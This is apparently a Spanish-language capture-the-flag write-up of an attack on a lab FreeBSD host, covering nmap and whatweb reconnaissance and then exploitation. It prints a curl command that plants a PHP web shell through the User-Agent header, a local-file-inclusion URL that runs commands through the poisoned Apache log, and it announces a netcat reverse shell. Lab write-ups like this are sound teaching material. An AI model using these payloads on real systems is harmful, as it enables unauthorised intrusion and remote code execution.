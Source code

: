 **Servicios**
```ruby
# Nmap 7.94SVN scan initiated Thu Dec 12 16:43:23 2024 as: nmap -sCV -p22,80 -oN services 10.10.10.84
Nmap scan report for 10.10.10.84
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 12 16:43:39 2024 -- 1 IP address (1 host up) scanned in 16.08 seconds
```

### Whatweb

```ruby
whatweb http://10.10.10.84
http://10.10.10.84 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[FreeBSD][Apache/2.4.29 (FreeBSD) PHP/5.6.32], IP[10.10.10.84], PHP[5.6.32], X-Powered-By[PHP/5.6.32]
```

## Explotación

Se detectó en el servicio web que el parámetro ``file`` es vulnerable a un **LFI**, gracias a esto se pudo observar los **Logs** dentro del archivo **``/var/log/httpd-access.log``** propio de **FreeBSD**. De esta manera realizamos un **Log Poisoning** modificando el ``User-Agent`` colocando un código PHP malicioso para poder conseguir un **RCE**.

Colocamos una ruta que no exista, por ejemplo *``probando.php``*

- **``curl -s -X GET "http://10.10.10.84/probando.php" -H "User-Agent: <?php system($_GET['cmd']); ?>"``**

Ahora si observamos los *logs* y colocamos el parámetro que añadimos con ``system($_GET['cmd'])`` de la siguiente forma, podremos ejecutar comandos.

- ``http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=whoami``

![[P 1.png]]

Si ahora intentamos entablar una Reverse Shell con ``bash -c`` y ``bash -i`` veremos que no será posible ya que el sistema **no posee una bash**, por lo tanto lo vamos a intentar con nc pero no de la forma tradicional, ya que tampoco se podrá.

Nos vamos a apoyar el repositorio de *``Monkey Pentest``* para utilizar el payload que entabla un **Reverse Shell** de una forma rápida con ``nc`` para versiones antiguas.
